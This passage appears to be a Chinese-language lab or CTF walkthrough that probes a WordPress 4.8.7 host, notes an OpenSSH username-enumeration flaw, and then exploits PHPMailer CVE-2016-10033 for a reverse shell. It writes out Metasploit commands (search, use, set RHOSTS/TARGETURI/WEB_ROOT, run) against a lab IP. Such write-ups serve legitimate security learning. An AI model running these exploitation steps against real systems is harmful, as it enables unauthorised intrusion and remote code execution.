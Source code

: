 **wordpress网站漏洞探测**

- 在网上查阅关于wordpress4.8.7版本可使用的漏洞，
- 找到了几个，但是需要登录后台之后才能利用，
- 而我连用户名都不知道是什么！

转移视线，

- 记得刚开始的时候我使用
- nmap扫描到**22端口**是开启状态，
- 并且得到版本号OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)，
- 所以我搜索此版本存在的漏洞，
- 发现了**用户名枚举的漏洞**

# 3 漏洞利用(反弹shell)

## 3.1 phpmailer**CVE-2016-10033远程代码执行漏洞利用**

metasploit

```
msfconsole
```

搜索phpmailer

```
search PHPmailer
```

![image-20220301161846807](https://gitee.com/xxb667/img/raw/master/img/image-20220301161846807.png)

使用info id查看漏洞的适用版本

发现第0个适用（适用于5.2.19及以下版本phpmailer）

```
info 0
```

![image-20220301162020929](https://gitee.com/xxb667/img/raw/master/img/image-20220301162020929.png)

## 3.2 MSF配置

1.配置信息

```
use 0
set RHOSTS 192.168.81.140
set TARGETURI /contact.php
set WEB_ROOT /var/www/html
```

运行

2.run，运行
